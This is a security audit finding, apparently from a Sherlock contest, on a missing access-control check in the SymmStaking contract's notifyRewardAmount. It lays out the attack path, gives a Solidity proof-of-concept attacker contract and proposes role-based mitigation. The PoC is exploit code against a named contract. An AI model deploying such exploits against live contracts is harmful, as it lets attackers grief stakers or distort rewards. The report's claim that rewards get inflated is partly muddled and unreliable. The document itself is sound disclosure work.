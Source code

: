 Digital Mocha Owl

High

# [High] Missing Access Control in Reward Notification

### Summary

A missing access control check in the reward notification mechanism will cause an unauthorized alteration of the reward state for stakers as an attacker will repeatedly inject arbitrary reward amounts, resetting and inflating the reward rate. This manipulation disrupts the intended reward distribution, ultimately harming stakers.



### Root Cause

- In `contracts/staking/SymmStaking.sol` within the `_addRewardsForToken` function, there is no access control check preventing unauthorized calls via `notifyRewardAmount`.
- This oversight allows any actor to invoke the reward update logic, where the critical state variables (`rate`, `lastUpdated`, and `periodFinish`) are recalculated without restrictions.


### Internal Pre-conditions

1. **Any user (attacker) must be able to call** `notifyRewardAmount` **without role restrictions.**
2. **The reward token must be whitelisted** (i.e., `isRewardToken[token]` is `true`) so that the token transfer succeeds.
3. **The attacker must hold a sufficient balance of the reward token and have approved its transfer** to the staking contract.


### External Pre-conditions

1. **The attacker’s reward token balance must be non-zero** and available for transfer.
2. **Network conditions must permit timely execution of transactions,** ensuring the reward state is manipulated effectively (e.g., low congestion and favorable gas prices).


### Attack Path

1. The attacker approves the staking contract to transfer a chosen amount of a whitelisted reward token.
2. The attacker calls `notifyRewardAmount` with an arbitrary reward amount. This call triggers the `_addRewardsForToken` function.
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275-L292

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L366-L379
3. Inside `_addRewardsForToken`, the following state updates occur:
   - If the current period has ended, the reward rate is set to `rewardRate = amount / state.duration`.
   - If the period is still active, the leftover rewards for the remaining time are added to the new amount, and the rate is recalculated as `rewardRate = (amount + (remainingTime * currentRate)) / state.duration`. 
4. The state variables `lastUpdated` and `periodFinish` are updated:   - `lastUpdated` is set to the current block timestamp.
   - `periodFinish` is reset to `block.timestamp + state.duration`, effectively starting a new reward period. 
5. The attacker may then deposit staking tokens and, with the manipulated high reward rate, claim an inflated share of rewards. If The attacker calls the function with a very low amount then this period finish will never end cause affecting to user.


### Impact

The stakers suffer inaccurate and unfair reward distributions. This vulnerability enables the attacker to extract a disproportionately high share of the reward pool while potentially diluting the rewards for honest stakers, thereby compromising the integrity of the protocol. Additionally, the statement `state.periodFinish = block.timestamp + state.duration;` will delay the staker reward time by constantly resetting the reward period, causing problems to both stakers and the protocol. This continuous extension of the reward period disrupts the expected reward schedule and can lead to unpredictable reward distributions.


### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "./SymmStaking.sol";
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

/**
 * @title AttackerPoC
 * @notice This contract demonstrates how an attacker can exploit the unrestricted 
 *         notifyRewardAmount mechanism in the SymmStaking contract to manipulate 
 *         reward parameters.
 */
contract AttackerPoC {
    SymmStaking public stakingContract;
    IERC20 public rewardToken;
    IERC20 public stakingToken;

    /**
     * @param _stakingContract The address of the vulnerable SymmStaking contract.
     * @param _rewardToken The address of the reward token (must be whitelisted).
     * @param _stakingToken The address of the staking token.
     */
    constructor(address _stakingContract, address _rewardToken, address _stakingToken) {
        stakingContract = SymmStaking(_stakingContract);
        rewardToken = IERC20(_rewardToken);
        stakingToken = IERC20(_stakingToken);
    }

    /**
     * @notice Executes the attack by calling notifyRewardAmount with an arbitrary reward amount.
     * @param rewardAmount The reward token amount to inject.
     */
    function attack(uint256 rewardAmount) external {
        // Approve the staking contract to transfer reward tokens from the attacker's account.
        rewardToken.approve(address(stakingContract), rewardAmount);
        
        address[] memory tokens = new address[](1);
        tokens[0] = address(rewardToken);
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = rewardAmount;
        
        // Unauthorized call to notifyRewardAmount triggers _addRewardsForToken,
        // manipulating the reward distribution parameters.
        stakingContract.notifyRewardAmount(tokens, amounts);
    }

    /**
     * @notice Optionally, deposit staking tokens to later benefit from the manipulated reward rate.
     * @param amount The amount of staking tokens to deposit.
     */
    function stakeTokens(uint256 amount) external {
        stakingToken.approve(address(stakingContract), amount);
        stakingContract.deposit(amount, address(this));
    }

    /**
     * @notice Claim rewards after the reward parameters have been manipulated.
     */
    function claimRewards() external {
        stakingContract.claimRewards();
    }
}
```

### Mitigation

- **Restrict Access:** Modify `notifyRewardAmount` to include a role-based access control modifier (e.g., `onlyRole(REWARD_MANAGER_ROLE)`) to ensure only authorized users can update reward parameters.
- **Validate Inputs:** Implement additional checks on the reward amount and update logic to prevent abuse and ensure the integrity of the reward distribution process.